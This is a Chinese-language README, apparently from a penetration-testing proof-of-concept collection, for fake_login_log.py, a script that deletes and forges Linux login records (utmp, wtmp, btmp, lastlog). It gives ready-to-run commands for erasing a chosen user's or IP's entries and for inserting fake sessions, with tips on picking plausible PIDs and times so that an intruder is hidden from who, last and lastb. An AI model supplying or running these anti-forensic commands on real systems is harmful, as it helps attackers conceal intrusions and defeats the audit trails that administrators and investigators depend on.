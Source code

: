 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本

## USEAGE
### 删除日志
1. 删除utmp记录，将自己从w或者who输出中隐藏
`python clean --mode delete --type utmp --user root` //删除用户为root的用户记录
`python clean --mode delete --type utmp --user root --host "58.47.251.255" `//删除用户为root且登录来源host为58.47.251.255的用户记录
2. 删除历史登录记录(wtmp)，隐藏last的记录
`python clean --mode delete --type wtmp --user root --host "111.30.32.213" `//删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录
`python clean --mode delete --type btmp --user root --host "172.16.50.156" `//删除用户为root且登录来源host为127.0.0.1的用户记录
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间
`python clean --mode delete --type lastlog --host "172.16.50.1" `//删除来源host的用户登录记录
`python clean --mode delete --type lastlog --date "2017-8-2 22:46:34" `//删除登录时间为2017-8-2 22:46:34的用户登录记录

### 伪造日志
1. 伪造utmp记录，将自己从w或者who输出中伪造
`python clean --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" `//伪造用户为nobody的用户记录
> 这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找
2. 伪造历史登录记录(wtmp)，伪造last的记录
`python clean --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录
`python clean --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `//伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录
4. 伪造lastlog记录
`python clean --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" `//伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录
